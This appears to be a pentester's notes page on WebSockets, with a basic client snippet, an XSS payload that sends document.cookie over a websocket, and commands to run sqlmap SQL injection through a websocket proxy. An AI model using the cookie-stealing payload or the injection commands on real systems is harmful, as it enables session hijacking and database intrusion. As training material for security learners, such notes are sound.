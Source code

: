 # WebSockets

[![modern_web_exploitation_techniques](../../../../cybersecurity/_badges/htb/modern_web_exploitation_techniques.svg)](https://academy.hackthebox.com/course/preview/modern-web-exploitation-techniques)

<div class="row row-cols-lg-2"><div>

WebSockets are natively integrated within most web browsers. They allow real-time communication between a server and a client.

The [socket.io](/programming-languages/web/javascript/libraries/socket.io/index.md) library is a well-known library built on web sockets, while adding a lot of convenient features for real world apps.

For simple applications, we can directly use the WebSocket [API](https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API):

```js!
const socket = new WebSocket('ws://IP:port/test'); // or "wss://" for secure communication
socket.onmessage = message => console.log("Received: " + message.data);
socket.send('test');
```

You can explore the websocket traffic from the network tab/Burp.
</div><div>

Depending on how services are integrated with websockets, [XSS](/cybersecurity/red-team/s3.exploitation/vulns/web/xss.md)/[CSRF](/cybersecurity/red-team/s3.exploitation/vulns/web/csrf.md) and [SQLi](/cybersecurity/red-team/s3.exploitation/vulns/injection/sqli.md) attacks might be possible.

```html!
<img src="" onerror="socket.send(document.cookie)">
```

Using SQLMap with websockets may not work. We can try [sqlmap-websocket-proxy](https://github.com/BKreisel/sqlmap-websocket-proxy) <small>(0.1k ⭐)</small>, but it's more efficient to write your own <small>(reuse socket, unify results for SQLMap, handle special attacks, etc.)</small>.

```shell!
$ pipx install git+https://github.com/BKreisel/sqlmap-websocket-proxy
$ DEST="$HOME/tools/sqlmap-websocket-proxy"
$ git clone -b "main" https://github.com/BKreisel/sqlmap-websocket-proxy.git $DEST
$ # do any changes to the code
$ pipx install $DEST # or reinstall if already installed
$ sqlmap-websocket-proxy -u 'ws://IP:port/testdb' -d '{"parameter":"%param%"}' -p 1337
$ sqlmap -u 'http://localhost:1337/?param1=1*' [...]
```

</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [The WebSocket Handbook](https://pages.ably.com/hubfs/the-websocket-handbook.pdf)
* `Sec-WebSocket-Version`
* `Sec-WebSocket-Key: base64encodedkey`
</div><div>
</div></div>